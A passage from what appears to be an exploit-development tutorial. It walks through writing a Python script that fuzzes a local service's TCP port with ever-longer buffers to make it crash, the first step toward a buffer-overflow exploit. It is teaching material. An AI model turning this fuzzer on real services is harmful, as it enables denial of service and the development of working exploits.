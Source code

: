 ***

### Fuzzing Remote Port

Once our program is running and we are attached to it through `x32dbg`, we can start fuzzing it and try to crash it. Unlike local fuzzing, where we wrote our payloads into a file and then opened the file in our application or manually copied our payload into a text field in the program, with remote fuzzing, we can automate this process through our Python exploit.

We'll create a new script called `win32bof_exploit_remote.py` and start by adding a couple of variables for `IP` and `port`, such that we can easily change them if we want to use the script on another server. Then, we will write our fuzzing function `def fuzz():`. We want to send increments of large strings, starting from `500` bytes long and incrementing by `500` at each iteration, until we send a long enough string that crashes the program. To accomplish this, we'll loop in a range from `0` to `10,000` with increments of `500`, as follows:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    for i in range(0,10000,500):
        buffer = b"A"*i
        print("Fuzzing %s bytes" % i)
```

The print statement helps us know the current fuzzing buffer size so that when the program eventually crashes, we know what length caused it to crash.

Next, we need to connect to the port each time and send our payload to it. To do so, we have to import the `socket` library as we did at the beginning of our code above, and then establish a connection to the port with the `connect` function, as follows:

Code: python

```python
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
```

With that, we should be ready to send our buffer, which we can do through `s.send(buffer)`. We will also need to wrap our loop in a `try/except` block, so that we can stop the execution when the program crashes and does not accept connections anymore. Our final `fuzz()` function should look as follows:

Code: python

```python
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```
